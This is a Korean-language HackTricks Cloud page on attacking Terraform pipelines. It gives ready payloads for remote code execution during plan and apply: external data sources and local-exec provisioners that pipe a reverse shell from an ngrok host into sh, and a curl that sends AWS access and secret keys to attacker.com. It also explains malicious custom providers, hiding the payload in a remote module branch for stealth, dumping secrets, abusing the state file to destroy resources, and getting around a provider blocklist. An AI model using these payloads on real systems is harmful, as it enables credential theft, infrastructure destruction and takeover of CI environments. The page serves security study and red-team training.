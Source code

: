 # Terraform 보안

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 기본 정보

[문서에서:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform은 인프라를 코드로 정의할 수 있는 도구로, 클라우드 및 온프레미스 리소스를 인간이 읽을 수 있는 구성 파일에 정의하여 버전 관리, 재사용 및 공유할 수 있습니다. 일관된 워크플로를 사용하여 인프라의 전체 수명 주기 동안 모든 인프라를 프로비저닝하고 관리할 수 있습니다. Terraform은 컴퓨팅, 스토리지, 네트워킹 리소스와 같은 저수준 구성 요소뿐만 아니라 DNS 항목 및 SaaS 기능과 같은 고수준 구성 요소를 관리할 수 있습니다.

### Terraform은 어떻게 작동합니까?

Terraform은 클라우드 플랫폼 및 다른 서비스에서 자신들의 응용 프로그래밍 인터페이스(API)를 통해 리소스를 생성하고 관리합니다. 제공자는 Terraform이 액세스 가능한 API를 통해 거의 모든 플랫폼이나 서비스와 작동할 수 있도록 합니다.

![](<../.gitbook/assets/image (177).png>)

HashiCorp 및 Terraform 커뮤니티는 이미 **1700개 이상의 제공자**를 작성하여 수천 가지 다른 유형의 리소스와 서비스를 관리하고 있으며, 이 숫자는 계속 증가합니다. Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog 등을 포함한 모든 공개 제공자를 [Terraform 레지스트리](https://registry.terraform.io/)에서 찾을 수 있습니다.

Terraform의 핵심 워크플로는 세 가지 단계로 구성됩니다:

* **작성:** 여러 클라우드 제공업체 및 서비스에 걸쳐 리소스를 정의합니다. 예를 들어, 가상 머신에 응용 프로그램을 배포하고 보안 그룹 및 로드 밸런서가 있는 Virtual Private Cloud (VPC) 네트워크에 구성을 생성할 수 있습니다.
* **계획:** Terraform은 기존 인프라 및 구성에 기반하여 생성, 업데이트 또는 파괴할 인프라를 설명하는 실행 계획을 작성합니다.
* **적용:** 승인하면 Terraform은 제안된 작업을 올바른 순서로 수행하며 리소스 종속성을 준수합니다. 예를 들어, VPC의 속성을 업데이트하고 해당 VPC의 가상 머신 수를 변경하는 경우, Terraform은 가상 머신을 확장하기 전에 VPC를 다시 생성합니다.

![](<../.gitbook/assets/image (215).png>)

## Terraform 랩

컴퓨터에 terraform을 설치하세요.

여기 [가이드](https://learn.hashicorp.com/tutorials/terraform/install-cli)와 여기 [terraform을 다운로드하는 가장 좋은 방법](https://www.terraform.io/downloads)이 있습니다.

## Terraform에서 RCE

Terraform은 **웹 페이지 또는 네트워크 서비스를 노출하는 플랫폼이 없으므로**, terraform을 침해하는 유일한 방법은 **terraform 구성 파일을 추가/수정할 수 있는** 것입니다.

그러나 terraform은 **침해하기 매우 민감한 구성 요소**이기 때문에 올바르게 작동하려면 **특권 액세스**가 필요합니다.

공격자가 terraform이 실행되는 시스템을 침해할 수 있는 주요 방법은 terraform 구성을 저장하는 저장소를 침해하는 것입니다. 왜냐하면 언젠가는 **해석**될 것이기 때문입니다.

실제로, PR이 생성된 후 **자동으로 terraform plan/apply를 실행하는 솔루션이** 있습니다. 예를 들어 **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

만약 terraform 파일을 침해할 수 있다면 `terraform plan` 또는 `terraform apply`를 실행할 때 RCE를 수행할 수 있는 다양한 방법이 있습니다.

### Terraform plan

Terraform plan은 terraform에서 **가장 많이 사용되는 명령어**이며, 개발자/terraform을 사용하는 솔루션은 항상 호출하므로 `terraform plan`에서 임의의 명령을 실행하는 terraform 구성 파일을 독려하는 것이 **가장 쉬운 RCE 방법**입니다.

#### 외부 제공자 사용

Terraform은 [`external` 제공자](https://registry.terraform.io/providers/hashicorp/external/latest/docs)를 제공하여 Terraform과 외부 프로그램 간의 인터페이스를 제공합니다. `external` 데이터 소스를 사용하여 `plan` 중에 임의의 코드를 실행할 수 있습니다.

다음과 같은 terraform 구성 파일에 주입하면 `terraform plan`을 실행할 때 rev 쉘을 실행합니다:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 커스텀 프로바이더 사용

공격자는 [커스텀 프로바이더](https://learn.hashicorp.com/tutorials/terraform/provider-setup)를 [Terraform 레지스트리](https://registry.terraform.io/)로 전송한 다음 해당 프로바이더를 특정 브랜치에 있는 Terraform 코드에 추가할 수 있습니다 ([여기 예시](https://alex.kaskaso.li/post/terraform-plan-rce) 참조):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
```markdown
공급자는 `init`에서 다운로드되며 `plan`이 실행될 때 악성 코드가 실행됩니다.

예제는 [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)에서 찾을 수 있습니다.

#### 외부 참조 사용

언급된 두 옵션 모두 유용하지만 매우 은밀하지는 않습니다(두 번째 옵션이 더 은밀하지만 첫 번째 옵션보다 복잡합니다). 이 제안을 따라 **더 은밀한 방법**으로 이 공격을 수행할 수 있습니다:

* 테라폼 파일에 직접 rev 쉘을 추가하는 대신, rev 쉘을 포함하는 **외부 리소스를 로드**할 수 있습니다:
```
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
rev shell 코드는 [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)에서 찾을 수 있습니다.

* 외부 자원에서 **ref** 기능을 사용하여 레포지토리 내의 브랜치에 **terraform rev shell 코드를 숨기는** 것이 가능합니다. 다음과 같이: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

모든 변경 사항을 적용하기 위해 Terraform apply가 실행될 것이며, **local-exec**를 사용하여 **악성 Terraform 파일을 삽입하여 RCE를 얻을 수**도 있습니다.\
다음과 같은 payload가 `main.tf` 파일에 포함되도록만 확인하면 됩니다:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
이전 기술의 제안을 따라 이 공격을 **외부 참조를 사용하여 더 은밀하게** 수행합니다.

## 시크릿 덤프

`terraform apply`를 실행하여 **덤프된 테라폼에서 사용되는 시크릿 값**을 얻을 수 있습니다. 테라폼 파일에 다음과 같은 내용을 추가합니다:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Terraform 상태 파일 남용

만약 테라폼 상태 파일에 쓰기 액세스 권한이 있지만 테라폼 코드를 변경할 수 없는 경우, [**이 연구**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)는 파일을 악용하는 몇 가지 흥미로운 옵션을 제공합니다:

### 리소스 삭제 <a href="#deleting-resources" id="deleting-resources"></a>

리소스를 삭제하는 두 가지 방법이 있습니다:

1. **실제 리소스를 파괴하기 위해 상태 파일에 임의의 이름으로 리소스를 삽입**

테라폼은 리소스가 존재하지 않아야 한다는 것을 인식하므로 (지정된 실제 리소스 ID를 따라) 해당 리소스를 파괴합니다. 이전 페이지의 예시:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **수정하여 업데이트할 수 없도록 리소스를 삭제하도록 설정 (따라서 삭제되고 다시 생성됨)**

EC2 인스턴스의 경우 인스턴스 유형을 수정하는 것만으로도 terraform이 삭제하고 다시 생성하도록 만들 수 있습니다.

### RCE

또한 [사용자 정의 프로바이더를 생성](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider)하여 terraform 상태 파일에서 악의적인 프로바이더로 하나를 교체하거나 악의적인 프로바이더로 빈 리소스를 추가하는 것도 가능합니다. 원본 연구에서의 예시:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## 블랙리스트에 올라간 공급자 대체

`hashicorp/external`이 블랙리스트에 올라간 경우, 다음을 수행하여 `external` 공급자를 다시 구현할 수 있습니다. 참고: 우리는 https://registry.terraform.io/providers/nazarewk/external/latest에서 발행된 external 공급자의 포크를 사용합니다. 여러분도 자체 포크나 재구현을 할 수 있습니다.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
그럼 `external`을 평소처럼 사용할 수 있습니다.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## 감사 도구

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec는 Terraform 코드의 정적 분석을 사용하여 잠재적인 구성 오류를 식별합니다.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan은 인프라스트럭처 코드의 정적 코드 분석기입니다.

## 참고 자료

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}
